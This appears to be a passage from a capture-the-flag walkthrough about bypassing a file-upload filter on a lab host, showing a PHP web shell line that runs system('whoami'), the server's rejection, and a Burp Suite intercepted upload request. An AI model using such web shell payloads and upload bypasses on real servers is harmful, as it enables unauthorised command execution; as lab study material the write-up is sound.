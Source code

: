 
```php 
<?
   system("whoami")
?>

```
let's try to upload 


output


```php
Error: Invalid file type.
File to upload: Sin archivos seleccionados
```

This can be due to incorrect extension or content type, or the server may interpret the first bytes of the script as magic numbers.

Let's mitigate all the vulnerabilities that we thought of

extentions
we have to intercept the upload, and we could make a sniper attack with BurpSuite

step 1 intercept the upload by turnning on the "interception tab of burpSuite"

step 2 upload 

and from my side i receive this output 

```php
POST /imfadministrator/uploadr942.php HTTP/1.1

Host: 192.168.100.52

Content-Length: 316

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://192.168.100.52

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5RKwj5GwTJjAOK9j

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.65 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://192.168.100.52/imfadministrator/uploadr942.php

Accept-Encoding: gzip, deflate

Accept-Language: es-419,es;q=0.9

Cookie: PHPSESSID=rftk9b1ducfunqjmrks8bcfb04

Connection: close



------WebKitFormBoundary5RKwj5GwTJjAOK9j

Content-Disposition: form-data; name="file"; filename="whoami.php"

Content-Type: application/x-php
```